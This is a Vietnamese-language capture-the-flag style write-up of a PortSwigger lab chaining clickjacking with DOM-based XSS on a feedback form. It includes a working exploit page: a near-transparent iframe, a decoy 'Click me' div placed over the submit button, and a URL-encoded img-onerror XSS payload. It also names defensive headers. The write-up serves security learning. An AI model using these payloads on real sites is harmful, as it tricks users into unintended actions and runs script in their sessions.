

# Write-ups: Exploiting clickjacking vulnerability to trigger DOM-based XSS

### Tổng quan
Khai thác lỗ hổng clickjacking kết hợp với DOM-based XSS trong chức năng feedback của ứng dụng. Trang `/feedback` cho phép điền trước dữ liệu qua tham số URL và dễ bị XSS do hiển thị trực tiếp tham số name mà không xử lý. Ứng dụng thiếu bảo vệ chống nhúng iframe (X-Frame-Options hoặc CSP), cho phép nhúng trang `/feedback` với payload XSS trong iframe. Kẻ tấn công sử dụng iframe và div giả mạo ("Click me") để lừa người dùng nhấp vào nút "Submit feedback", kích hoạt XSS với lệnh `print()` và hoàn thành lab.

### Mục tiêu
- Khai thác clickjacking để nhúng trang `/feedback` với payload XSS trong `iframe`, đặt div giả mạo lên nút "Submit feedback", lừa người dùng nhấp để kích hoạt DOM-based XSS với lệnh `print()` và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Truy cập chức năng feedback tại /feedback, thử gửi form với dữ liệu:
    - Name: 1111
    - Email:1111@gmail.com   
    - Subject:1111
    - Message: nice web
- **Phản hồi**:
    - Trang hiển thị tên `1111` trực tiếp có thể là reflected xss:
        

- Truy cập chức năng feedback tại /feedback, thử gửi form với dữ liệu:
    - Name: 
    - Email:1111@gmail.com   
    - Subject:1111
    - Message: nice web
- **Phản hồi**:
    - Trang hiển thị tên `` trực tiếp, kích hoạt lệnh `print()`, xác nhận lỗ hổng DOM-based XSS:
        

- Kiểm tra URL điền trước dữ liệu form: `/feedback?name=wiener&email=hacker@email.com&subject=hehehe&message=huhuhu`
    - Trang `/feedback` hiển thị form với các trường được điền trước, dễ bị tiêm payload XSS qua tham số name.
        

- **Kiểm tra khả năng nhúng iframe**
    - Tạo payload kiểm tra trong Exploit Server để xác minh khả năng nhúng trang `/feedback`:
        ```html
        <iframe src="https://0a5500910335739280ea0d2100e8003c.web-security-academy.net/feedback?name=wiener&email=hacker@email.com&subject=hehehe&message=huhuhu"></iframe>
        ```
    - Store và view exploit:
        - Trang `/feedback` hiển thị trong iframe mà không bị chặn, xác nhận thiếu `X-Frame-Options` hoặc CSP:
            

3. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server để lừa người dùng nhấp vào nút "Submit feedback" với XSS:
    ```html
    <style>
        iframe {
            position: relative;
            width: 1000px;
            height: 700px;
            opacity: 0.0001;
            z-index: 2;
        }
        div {
            position: absolute;
            top: 617px;
            left: 65px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a5500910335739280ea0d2100e8003c.web-security-academy.net/feedback?name=%3c%69%6d%67%20%73%72%63%3d%22%31%22%20%6f%6e%65%72%72%6f%72%3d%70%72%69%6e%74%28%29%3e&email=hacker@email.com&subject=hehehe&message=huhuhu#feedbackResult"></iframe>
    ```
    
- **Ý tưởng payload**:
    - Iframe nhúng `/feedback` với payload XSS trong tham số name, div "Click me" đặt chồng lên nút "Submit feedback" để lừa nhấp, kích hoạt lệnh `print()`.
- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: Khi nạn nhân nhấp vào "Click me", form feedback được gửi, payload `` được hiển thị, kích hoạt lệnh `print()` và hoàn thành lab
        

### Bài học rút ra
- Hiểu cách khai thác clickjacking kết hợp DOM-based XSS bằng cách nhúng trang `/feedback` với payload XSS vào iframe, sử dụng div giả mạo để lừa người dùng nhấp vào nút "Submit feedback", kích hoạt lệnh `print()`.
- Nhận thức tầm quan trọng của việc triển khai header `X-Frame-Options: DENY` hoặc `Content-Security-Policy: frame-ancestors 'none'` để ngăn nhúng iframe và xử lý an toàn đầu vào người dùng để ngăn chặn XSS.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác clickjacking kết hợp DOM-based XSS, nhấn mạnh tầm quan trọng của việc bảo vệ chống nhúng iframe và xử lý an toàn dữ liệu đầu vào để ngăn chặn các cuộc tấn công kết hợp. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*